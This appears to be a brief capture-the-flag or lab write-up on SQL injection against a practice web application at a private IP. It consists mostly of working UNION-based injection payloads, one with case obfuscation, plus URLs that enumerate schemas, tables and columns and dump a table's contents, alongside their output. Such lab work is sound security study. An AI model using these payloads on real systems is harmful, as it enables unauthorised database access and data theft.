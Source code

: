 # SQL Injection

```
1 UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

Surname : |information_schema|,|Member_Brute_Force|,|Member_Sql_Injection|,|Member_guestbook|,|Member_images|,|Member_survey|
```

```
1 UNION ALL SELECT table_name,2 from information_schema.tables

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: db_default
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: users
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: guestbook
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: list_images
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: vote_dbs
Surname : 2
```

list Columns : 
`http://192.168.56.102/\?page\=searchimg\&id\=1+UNION+ALL+SELECT+column_name%2Ctable_name+from+information_schema.columns\&Submit\=Submit\#`

display comment : 
`http://192.168.56.102/?page=searchimg&id=1+UNION+SELECT+concat%28id%2Cchar%2858%29%2Curl%2Cchar%2858%29%2Ctitle%2Cchar%2858%29%2Ccomment%2Cchar%2858%29%29%2C2+FROM+list_images&Submit=Submit#`


